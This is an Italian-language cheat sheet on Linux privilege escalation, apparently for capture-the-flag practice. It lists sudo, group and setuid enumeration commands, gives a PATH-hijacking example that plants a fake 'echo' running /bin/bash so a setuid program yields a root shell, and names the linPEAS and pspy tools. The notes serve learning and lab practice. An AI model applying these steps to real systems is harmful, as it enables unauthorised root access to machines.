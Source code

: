 # Privilege Escalation 

link utile: https://hacktips.it/guida-privilege-escalation-sistemi-linux/

vedere cosa può fare l'utente come root:
```
sudo -l 
```

vedere cosa può fare l'utente nei gruppi:
```
id 
find / -group <GROUP> 2>/dev/null
```

## setuid program

trovare tutti i file setuid
```
find / -perm -u=s -type f 2>/dev/null
```

cercare file in https://gtfobins.github.io/gtfobins/

se il file esegue un altro programma modificare il path e creare un programma locale con lo stesso nome che fa altro.
esempio programma `./get_flag` che esegue echo:
```
cd /tmp
echo "/bin/bash" > echo
chmod 777 echo
echo $PATH
export PATH=/tmp:$PATH
cd /home/flag
./get_flag
```

## tools
- [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) --> enumerazione per privilege escalation 
- [pspy](https://github.com/DominicBreuker/pspy) --> enumera tutti i processi attivi sul sistema




